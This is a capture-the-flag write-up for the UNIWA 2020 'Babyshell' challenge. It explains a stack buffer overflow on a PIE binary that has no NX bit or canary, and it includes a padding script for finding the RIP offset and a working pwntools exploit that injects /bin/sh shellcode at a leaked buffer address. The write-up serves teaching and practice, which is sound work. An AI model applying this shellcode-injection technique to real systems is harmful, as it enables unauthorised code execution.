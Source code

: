 # Babyshell - UNIWA 2020 CTF

This is a simple stack smashing challenge

Running the exectutable prompts us for a choice:
Pay with cash OR Enter a gift code

If we chose to pay the program will inform us that we are broke and then exit.

![](img/broke.png)

If we go the other route, and enter a gift code it will print the gift code as a hex value, then ask us again for some input and then exit.

![](img/gift.png)

That hexvalue strikes me as a leaked address or something, lets open in up with ghidra and analyze it.

![](img/ghidra.png)

We can see that after selecting option 2, a ```read()``` is called and reads 10 characters from ```stdin``` and stores them into ```gift_code```. After that it compares the string in ```gift_code``` with ```tw1nkl3tw1nkl3``` and exits if the same. Something that will never happen because the programm only reads 10 characters. 

In any case, the programm then prints the address of ```buffer``` as our gift code, reads a string into it. And then exits.

We can use that to overwrite the RIP register and redirect code execution into ```buffer``` where we would have placed a malicious shellcode.

![](img/checksec.png)

A quick look in ```gdb``` with ```checksec``` reveals that a BOF attack is possible because the ```NX bit``` is not set and no ```Canary``` is present.


## Poking it with the stick

Firstly we need to get control of RIP. To do that i created a simple python script to create the required input for the programm.

```
#!/usr/bin/python
import sys

payload = b""

# First choice
choice_1 = b"2\n"
# 10 chars for the gift code
gift_code = b"A" * 9 + b"\n"

# long string to overwrite RIP
padd = b"A" * 8
padd += b"B" * 8
padd += b"C" * 8
padd += b"D" * 8
padd += b"E" * 8
padd += b"F" * 8
padd += b"G" * 8
padd += b"H" * 8
padd += b"I" * 8
padd += b"G" * 8
padd += b"K" * 8
padd += b"\n"

payload += choice_1 + gift_code + padd
sys.stdout.buffer.write(payload)
```

Pipe the output into a file and then open ```babyshell``` with ```gdb```.
Do a ```disas main``` and then set a breakboint after the last ```scanf()``` using ```b * main+273```. Now we run the programm with our payload as input and observe the changes to the ```RIP``` register:

![](img/bp.png)

We hit the breakpoint on ```scanf()``` now if we step one instruction using ```ni```, ```scanf()``` should should grab our ```padd``` variable as input and overflow the buffer (hopefully) thus overwritting the ```RIP``` register.

Check the saved ```RIP``` using ```i f``` (info frame):

![](img/rip.png)

Indeed, ```RIP``` got overwritten with ```0x4A``` ("J"), that means whatever address we put in place of the 8 J's in our exploit it will act as the new ```RIP```. Since this is a PIE Executable the addresses always change, the only address we have is the ```buffer``` that gets leaked from earlier.

## Smashing the stack (for fun and profit)

What do we have up until now:

+ Control of the ```RIP``` register
+ Leaked stack address of a local variable
+ We know that the first choice has to be "2"
+ 10 Characters after that for the supposed gift code
+ A buffer we can overflow and also jump to it because we have its address

How should we proceed:

1. Our payload should start with the choice: 2
2. Enter 10 Characters to get rid of the ```read()``` call
3. Then out shellcode should be placed first into the buffer
4. Fill the buffer until we overflow
5. Smash the stack and overwrite the ```RIP`` register with the leaked address.

I'm using ```pwntools``` (```pip install pwntools```), it handles the interactive shell after we execute the shellcode and can capture data in realtime.

```
#!/usr/bin/python
from pwn import *

LOCAL = True
# 64-bit cablable shellcode from: 
# https://www.exploit-db.com/exploits/42179
shellcode = b"\x50\x48\x31\xf6\x56\x48\xbf\x2f\x62"
shellcode += b"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
shellcode += b"\x5f\x6a\x3b\x58\x99\x0f\x05"

# After the choice and the read call we need 72 character until we overflow 
# the buffer
stack_len = 72

if LOCAL:
    p = process("./babyshell")
else:
    p = remote("ctf.uniwa.gr",31468)


p.recvuntil('>')
# send our choice
p.sendline("2")
p.recvuntil('>')
# send 10 characters
p.sendline(b"a" * 9)
# flush the buffer
p.recvuntil('[')
# grab the leaked address and convert it into an integer
buffer = int(p.recvuntil(']', drop=True)[2:].decode(),16)
log.info(f"Leaked buffer address: [{hex(buffer)}]")
# our payload is shellcode + overflow padding + the leaked address
payload = shellcode + (b"a" * (stack_len - len(shellcode))) + p64(buffer)

# send the payload
p.sendline(payload)
# switch to an interactive shell
p.interactive()
```

We got shell:

![](img/shell.png)
